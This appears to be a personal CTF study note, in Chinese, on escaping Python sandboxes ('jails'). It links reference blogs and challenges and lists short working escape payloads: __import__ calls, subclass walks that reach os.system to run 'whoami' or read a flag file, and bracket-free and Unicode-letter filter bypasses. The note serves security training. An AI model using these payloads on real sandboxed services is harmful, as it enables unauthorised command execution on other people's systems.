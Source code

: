 ```yaml
---
tags:
  - notes
comments: true
dg-publish: true
---
```


> [!PREREQUISITE]
>
> 准备练练 python jail ，准备资料如下：
>
> - [Tr0y's Blog](https://www.tr0y.wang/)
>     - [Python 沙箱逃逸的经验总结](https://www.tr0y.wang/2019/05/06/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E7%BB%8F%E9%AA%8C%E6%80%BB%E7%BB%93/)
>     - [Python 沙箱逃逸的通解探索之路](https://www.tr0y.wang/2022/09/28/common-exp-of-python-jail/)
>     - [Unicode 的使用](https://www.tr0y.wang/2020/08/18/IDN/#%E5%88%A9%E7%94%A8%E5%9C%BA%E6%99%AF)
> - [nssctf](https://www.nssctf.cn/problem) (搜 jail 即可)
>     - [一个简单的题解](https://www.aiwin.fun/index.php/archives/3992/)
> - [github-autojail](https://github.com/martcl/autojail)
> - [moectf2024 题目链接](https://ctf.xidian.edu.cn/games/10/challenges?challenge=95)

- [Moejail](../../MOECTF2024/MISC.md#Moejail)

-  `__import__('os').system('ls')`
- `[i.__init__.__globals__['linecache'].__dict__['os'].system('whoami') for i in ''.__class__.__mro__[-1].__subclasses__() if i.__name__ == "catch_warnings"]`
- `[i for i in ''.__class__.__mro__[-1].__subclasses__() if i.__name__ == "_wrap_close"][0].__init__.__globals__['system']('cat ./flag')`
- 限制 A-z0-9 => https://lingojam.com/ItalicTextGenerator
- 限制 `'"{}[]()_` => ` @exec\n@input\nclass\tx:\n\tpass`

```python
@exec
@input
class x:
    pass

exec("@exec\n@input\nclass\tx:\n\tpass")
# exec("@𝘦𝘹𝘦𝘤\n@𝘪𝘯𝘱𝘶𝘵\n𝘤𝘭𝘢𝘴𝘴\t𝘹:\n\t𝘱𝘢𝘴𝘴")
```